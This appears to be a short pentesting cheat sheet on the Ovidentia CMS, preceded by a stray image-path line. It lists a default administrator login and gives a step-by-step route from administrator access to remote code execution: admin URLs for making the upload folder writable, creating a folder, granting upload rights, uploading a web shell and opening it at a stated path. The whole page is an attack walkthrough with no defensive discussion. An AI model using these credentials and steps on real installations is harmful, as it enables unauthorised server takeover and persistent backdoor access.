 # CMS Ovidentia

### Default credentials

The default administrator credentials are:

```
admin@admin.bab:012345678
```

### Administrator to RCE

Access the file upload configuration page and make sure that the web service
has write rights on the currently configured upload folder:

```
/index.php?tg=site&idx=menu4&item=1
```

Then use the administration file manager page to create a folder on the
application:

```
/php/index.php?tg=admfms
```

And configure the access rights on the folder to allows file upload and
others permissions:

```
/php/index.php?tg=admfm&idx=rights&fid=<FOLDERID>
```

Upload file a web shell on the target:

```
/index.php?tg=fileman&idx=displayAddFileForm&id=<FOLDERID>&gr=Y&path=<FOLDERNAME>
```

The uploaded web shell can be accessed at the following URL:

```
/fileManager/collectives/DG0
```
